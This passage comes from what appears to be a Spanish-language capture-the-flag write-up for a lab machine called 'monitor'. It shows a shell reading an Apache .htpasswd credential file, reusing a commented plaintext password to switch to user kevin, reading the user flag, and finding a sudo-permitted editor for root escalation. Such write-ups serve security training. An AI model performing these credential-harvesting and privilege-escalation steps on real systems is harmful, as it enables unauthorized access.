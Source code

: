 Obviamente corresponde al hash de la contraseña que hemos hecho fuerza bruta antes, pero siempre es buena idea revisar este archivo por si hay algún otro hash o credencial comentada como es el caso...
```console
(remote) www-data@monitor:/tmp$ cat /etc/apache2/.htpasswd
admin:$apr1$3Duw.Wk/$tTB.rbcdqZvDC53SFe8Ab/
#kevin:$up3r_$3cUr3_@p@CHe
```

Y de esta forma podemos migrar al usuario `kevin` ya que también reutiliza la contraseña y podemos leer la flag de `kevin`
```console
(remote) www-data@monitor:/tmp$ su kevin
Password:
kevin@monitor:/tmp$ ls -la /home/kevin/
total 24
drwx------ 2 kevin kevin 4096 abr 23  2023 .
drwxr-xr-x 3 root  root  4096 nov  3  2023 ..
lrwxrwxrwx 1 root  root     9 abr 23  2023 .bash_history -> /dev/null
-rw------- 1 kevin kevin  220 ene 15  2023 .bash_logout
-rw------- 1 kevin kevin 3526 ene 15  2023 .bashrc
-rw------- 1 kevin kevin  807 ene 15  2023 .profile
-r-------- 1 kevin kevin   33 nov  3  2023 user.txt
kevin@monitor:/tmp$ cat /home/kevin/user.txt
9951f9dd45d885d...
```
# Privilege Escalation
Podemos ver que `kevin` tiene permiso para ejecutar como `root` el binario `lfm`
```console
kevin@monitor:/tmp$ sudo -l
Matching Defaults entries for kevin on monitor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User kevin may run the following commands on monitor:
    (root) NOPASSWD: /usr/bin/lfm
```

Al ejecutarlo me di cuenta que era un editor de texto, y con bastantes funcionalidades, por lo que me imaginé que como con `nano` o con `vi`, podemos llegar a ejecutar comandos.
![Write-up Image](images/Screenshot_14.png)